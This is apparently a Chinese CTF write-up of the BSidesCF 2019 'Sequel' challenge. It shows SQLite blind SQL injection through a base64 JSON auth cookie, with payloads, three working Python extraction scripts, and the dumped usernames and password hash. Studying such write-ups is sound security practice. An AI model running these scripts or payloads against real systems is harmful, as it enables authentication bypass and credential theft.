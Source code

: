 # \[BSidesCF 2019]Sequel

## \[BSidesCF 2019]Sequel

## 考点

* sqlite3盲注

## wp

登录页面，随便输提示`Username must be alphanumeric.`

![](<../.gitbook/assets/image (31).png>)

弱口令爆破，guest/guest，登录后提示数据库

![](<../.gitbook/assets/image (5).png>)

抓包发现cookie是`1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9`

base64解码是`{"username":"guest","password":"guest"}`，这里可能存在注入

改成`{"username":"guest'#","password":"guest"}`，提示Invalid user.

改成`{"username":"guest"#","password":"guest"}`，提示Server Error

`"`加个转义符试试，`{"username":"guest\"#","password":"guest"}`，还提示Invalid user.

把`#`改成`--`，`{"username":"guest\"--","password":"guest"}`，成功登录

`{"username":"\" or 1=1--","password":"guest"}`，成功登录

盲注脚本如下

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://60973c61-7d7e-406d-8b6d-4cdce6d2c6d5.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = " ,0123456789_abcdefghijklmnopqrstuvwxyz"
for i in range(1, 50):
    print(flag)
        
    low = 0
    high = 38
    mid = (low+high)//2
    while low < high:
        payload = '{"username":"\\" or 1=((substr((select name from sqlite_master where type=\\"table\\" limit 1 offset 0),'+str(i)+',1))>\\"'+table[mid]+'\\")--","password":"guest"}'
        #  print(payload)
        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
    
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        
        # true
        if len(r.text) > 3400:
            low = mid + 1
        # false
        if 'Invalid user' in  r.text:
            high = mid
        mid = (low+high)//2
            
        if low == high:
            flag = flag + table[low]
            break
```

得到表userinfo，reviews，notes

由于sqlite3在进行字符比较时不区分大小写，所以在注入字段时不能用二分法，同时可能会有不可见字符，所以对结果进行hex编码然后再布尔盲注判断字符

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://58104486-6db8-40ed-9632-8897a13ff8ae.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = '0123456789ABCDEF'
for i in range(1, 5000):
    print(flag)
        
    for j in table:
        
        payload = '{"username":"\\" or 1=(substr((select hex(sql) from sqlite_master where type=\\"table\\" and name=\\"userinfo\\" limit 1 offset 0),'+str(i)+',1)=\\"'+j+'\\")--","password":"guest"}'

        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
        print(payload)
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        print(r.text)
        # true
        if len(r.text) > 3400:
            flag = flag + j
            break
        # false
        if 'Invalid user' in  r.text:
            continue
 
```

结果

```sql
CREATE TABLE userinfo (
                        username text not null primary key,
                        password text not null)
```

然后注入，得到用户名密码

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://58104486-6db8-40ed-9632-8897a13ff8ae.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = '0123456789ABCDEF'
for i in range(1, 5000):
    print(flag)
        
    for j in table:
        
        payload = '{"username":"\\" or 1=(substr((select hex(group_concat(username)) from userinfo),'+str(i)+',1)=\\"'+j+'\\")--","password":"guest"}'

        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
        #print(payload)
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        #print(r.text)
        # true
        if 'No note for' in r.text:
            flag = flag + j
            break
        # false
        if 'Invalid user' in  r.text:
            continue
 
```

结果如下

```
guest,sequeladmin
guest,f5ec3af19f0d3679e7d5a148f4ac323d
```

![](<../.gitbook/assets/image (22) (1).png>)

## 小结

sqlite3注入

1. 找表`select name from sqlite_master where type="table"`，需要限制输出的话是`select name from sqlite_master where type="table" limit 1 offset 0`，修改offset，从0开始，如果超过表的数量会返回错误
2. 找字段`select sql from sqlite_master where type="table" and name="userinfo"`
3. 盲注考虑编码再注入，避免很多不必要的麻烦
